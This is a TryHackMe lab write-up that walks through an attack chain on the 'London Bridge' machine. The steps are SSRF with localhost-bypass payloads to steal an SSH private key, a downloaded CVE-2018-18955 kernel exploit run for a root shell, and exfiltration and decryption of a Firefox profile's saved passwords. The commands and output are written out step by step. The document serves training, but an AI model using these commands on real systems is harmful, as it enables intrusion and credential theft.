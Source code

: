 # The London Bridge - TryHackMe Writeup

**Difficulty:** Medium  
**TL;DR:** Found SSRF via hidden `www` parameter → SSH key theft → user flag → exploited kernel vulnerability `(CVE-2018-18955)` → root access -> extracted `Charles` password from FireFox profile.
---------------------------
## Target
- Machine: `LondonBridge`  
- Date: `2025-10-19`  
- Environment: TryHackMe / CTF
---------------------------

## Steps 
1. Initial scan:

```bash

└─$ nmap -sV -sC -Pn -T4 10.10.220.239                             

22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
8080/tcp open  http    Gunicorn
|_http-title: Explore London
|_http-server-header: gunicorn
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel


```

2. Directory discovery:

```bash
└─$ gobuster dir -u http://10.10.220.239:8080/ -w /usr/share/wordlists/dirb/big.txt -t 40 -x .php,.php.bak,.txt

/contact              (Status: 200) [Size: 1703]
/feedback             (Status: 405) [Size: 178]
/gallery              (Status: 200) [Size: 1722]
/upload               (Status: 405) [Size: 178]
/view_image           (Status: 405) [Size: 178]
/dejaview             (Status: 200) [Size: 823]

```



3. In the dejaview page, we discovered an image upload functionality via URL using the image_url parameter.
![image_url-parameter](images/POST-REQ-View-2.png)
 Following the hint about checking for development leftovers, we fuzzed for hidden parameters.

4. Parameter Discovery with FFuf:

```bash
└─$ ffuf -X POST -u "http://londonbridge.thm:8080/view_image" -data "FUZZ=test" -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -H 'Content-Type: application/x-www-form-urlencoded' -fs 0,823 -mc all 


www                     [Status: 500, Size: 290, Words: 37, Lines: 5, Duration: 122ms]

```
Found parameter `www`

-------------------------
### SSRF (Server-Side Request Forgery)


1. Internal Network Mapping

 Using localhost bypass techniques:

Referenced localhost bypass methods from: [SSRF Cheat Sheet](https://highon.coffee/blog/ssrf-cheat-sheet/#basic-locahost-bypass-attempts)

```bash
└─$ ffuf -X POST -u "http://londonbridge.thm:8080/view_image" -data "www=http://FUZZ" -w localhosts.txt -fs 0,823 -mc all -H 'Content-Type: application/x-www-form-urlencoded'


127.1:8080              [Status: 200, Size: 2682, Words: 871, Lines: 83, Duration: 204ms]
127.0.1                 [Status: 200, Size: 1270, Words: 230, Lines: 37, Duration: 203ms]
017700000001            [Status: 200, Size: 1270, Words: 230, Lines: 37, Duration: 203ms]
0/                      [Status: 200, Size: 1270, Words: 230, Lines: 37, Duration: 376ms]
127.1                   [Status: 200, Size: 1270, Words: 230, Lines: 37, Duration: 376ms]
127.1.1.1:8080#\@127.2.2.2:8080/ [Status: 200, Size: 2682, Words: 871, Lines: 83, Duration: 380ms]
127.1.1.1:8080\@127.2.2.2:8080/ [Status: 200, Size: 2682, Words: 871, Lines: 83, Duration: 380ms]
127.1.1.1:8080:\@@127.2.2.2:8080/ [Status: 200, Size: 2682, Words: 871, Lines: 83, Duration: 394ms]
127.1.1.1:8080\@@127.2.2.2:8080/ [Status: 200, Size: 2682, Words: 871, Lines: 83, Duration: 628ms]

```

`127.1:80` Internal service discovered 

```bash
└─$ curl -X POST http://londonbridge.thm:8080/view_image -d "www=http://127.1:80/"  

```
2. Fuzzing :

```bash
└─$ ffuf -X POST -u "http://londonbridge.thm:8080/view_image" -data "www=http://127.1:80/FUZZ" -w /usr/share/wordlists/dirb/common.txt -H 'Content-Type: application/x-www-form-urlencoded' -fs 0,469 -mc 


.profile                [Status: 200, Size: 807, Words: 128, Lines: 28, Duration: 205ms]
.bashrc                 [Status: 200, Size: 3771, Words: 522, Lines: 118, Duration: 205ms]
                        [Status: 200, Size: 1270, Words: 230, Lines: 37, Duration: 205ms]
.cache                  [Status: 200, Size: 474, Words: 19, Lines: 18, Duration: 206ms]
.ssh                    [Status: 200, Size: 399, Words: 18, Lines: 17, Duration: 206ms]
index.html              [Status: 200, Size: 1270, Words: 230, Lines: 37, Duration: 351ms]
static                  [Status: 200, Size: 420, Words: 19, Lines: 18, Duration: 150ms]
templates               [Status: 200, Size: 1294, Words: 358, Lines: 44, Duration: 132ms]
uploads                 [Status: 200, Size: 630, Words: 23, Lines: 22, Duration: 228ms]

```
SSH directory accessible!  

```bash
└─$ curl -X POST http://londonbridge.thm:8080/view_image -d "www=http://127.1:80/.ssh"
.
.
<h1>Directory listing for /.ssh/</h1>
<hr>
<ul>
<li><a href="authorized_keys">authorized_keys</a></li>
<li><a href="id_rsa">id_rsa</a></li>
.
.

```
3. Download the private key :
```bash
└─$ curl -X POST http://londonbridge.thm:8080/view_image -d "www=http://127.1:80/.ssh/id_rsa" > id_rsa

chmod 600 id_rsa
```
User Identified: `beth` (from authorized_keys)

----------------

## user flag 

Connect via SSH and get the user flag from `__pycache__`:
```bash
└─$ ssh -i id_rsa beth@londonbridge.thm 


beth@london:~$ cat __pycache__/user.txt 
THM{[REDACTED]}
```

-----------------

## root flag

```bash

beth@london:~$ uname -a
Linux london 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
```


### CVE:2018-18955

Description

In the Linux kernel 4.15.x through 4.19.x before 4.19.2, map_write() in kernel/user_namespace.c allows privilege escalation because it mishandles nested user namespaces with more than 5 UID or GID ranges. A user who has CAP_SYS_ADMIN in an affected user namespace can bypass access controls on resources outside the namespace, as demonstrated by reading /etc/shadow. This occurs because an ID transformation takes place properly for the namespaced-to-kernel direction but not for the kernel-to-namespaced direction.

------------------------

1. Clone the repo in your machine and run python web server

```bash
└─$ git clone https://github.com/scheatkode/CVE-2018-18955.git

└─$ python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```
 
2. Download it in target machine using `wget -r `

```bash
beth@london:~$ wget -r http://[YOUR_IP]:8000/CVE-2018-18955
```
3. Change the permissions to be exectuable and run `exploit.dbus.sh`

```bash
beth@london:~/CVE-2018-18955$ chmod +x exploit.dbus.sh
beth@london:~/CVE-2018-18955$ ./exploit.dbus.sh 


[*] Launching root shell: /tmp/sh
root@london:/root# id
uid=0(root) gid=0(root) groups=0(root),1000(beth)
```
4. get root flag :
```bash
root@london:/root# cat .root.txt 
THM{REDACTED}
```
---------------------------

## password of charles
there firefox profile in `charles` home directory

We gonna use python script to steal firefox passwords 
you can download it from `https://github.com/unode/firefox_decrypt`


1. Download `8k3bf3zp.charles` to your machine via python server.

```bash
root@london:/home/charles/.mozilla/firefox# python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```
2. In your machine :
```bash
└─$ wget -r http://londonbridge.thm:8000/8k3bf3zp.charles
```
3. After download the profile run the script :
```bash
└─$ python3 firefox_decrypt.py londonbridge.thm:8000/8k3bf3zp.charles 
2025-10-20 06:18:01,266 - WARNING - profile.ini not found in londonbridge.thm:8000/8k3bf3zp.charles
2025-10-20 06:18:01,267 - WARNING - Continuing and assuming 'londonbridge.thm:8000/8k3bf3zp.charles' is a profile location

Website:   https://www.buckinghampalace.com
Username: 'Charles'
Password: '[REDACTED]'
```

 .
